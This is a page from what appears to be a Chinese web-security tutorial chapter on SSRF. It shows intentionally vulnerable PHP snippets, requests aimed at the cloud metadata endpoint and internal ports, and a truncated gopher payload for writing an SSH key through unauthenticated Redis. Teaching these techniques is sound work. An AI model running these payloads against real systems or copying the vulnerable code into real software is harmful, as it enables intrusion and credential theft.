

repository: yang123-BB/vuln-expert-guide · page: chapters/ch11/index.html · generator: mkdocs

# 第11章：Web 漏洞挖掘（下）

难度：⭐⭐⭐  
预计时间：120分钟

## 学习目标

本章将继续深入讲解 Web 漏洞挖掘技术（下篇）。学完本章后，你将能够：

1. 理解并挖掘 SSRF（服务端请求伪造）漏洞
2. 掌握 XXE（XML 外部实体注入）的原理与利用
3. 分析不安全的反序列化漏洞
4. 挖掘业务逻辑漏洞（越权、IDOR、支付绕过）
5. 识别并绕过验证码与速率限制
6. 利用 WebSocket 与 WebCache 漏洞

---

## 11.1 SSRF（服务端请求伪造）

### 11.1.1 原理与危害

**SSRF**（Server-Side Request Forgery）是攻击者诱导服务器发起任意请求的漏洞。

**危害**：
- 内网探测（扫描内网端口）
- 访问内网服务（Redis、MySQL、Elasticsearch）
- 绕过访问控制（访问受限资源）
- 攻击内网应用（Redis 未授权访问、FastCGI、...）

### 11.1.2 常见场景

**1. 图片/文件下载功能**

```php
// vuln.php
<?php
$url = $_GET['url'];
$image = file_get_contents($url);
echo $image;
?>

http://vuln-web.com/vuln.php?url=http://169.254.169.254/latest/meta-data/  # AWS 元数据
```

**2. Webhook 功能**

```php
// webhook.php
<?php
$url = $_POST['webhook_url'];
$result = file_get_contents($url);  // 服务器发起请求
?>
```

**3. PDF 生成功能**

```php
// pdf.php
<?php
$html = $_POST['html'];
// 使用 wkhtmltopdf 生成 PDF，会请求 HTML 中的资源
$html = "<img src='http://169.254.169.254/latest/meta-data/'>";
?>
```

### 11.1.3 利用技术

#### 1. 内网探测

**端口扫描**：
```bash
# 探测 192.168.1.1:80
http://vuln-web.com/vuln.php?url=http://192.168.1.1:80

# 根据响应时间判断端口是否开放
```

**协议利用**：
```
file://   - 读取本地文件
dict://   - 探测端口（如 Redis）
gopher:// - 发送任意 TCP 数据（Redis、MySQL）
```

#### 2. 攻击 Redis

**Redis 未授权访问**：
```bash
# 使用 gopher 协议写入 SSH 公钥
gopher://192.168.1.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$...
```
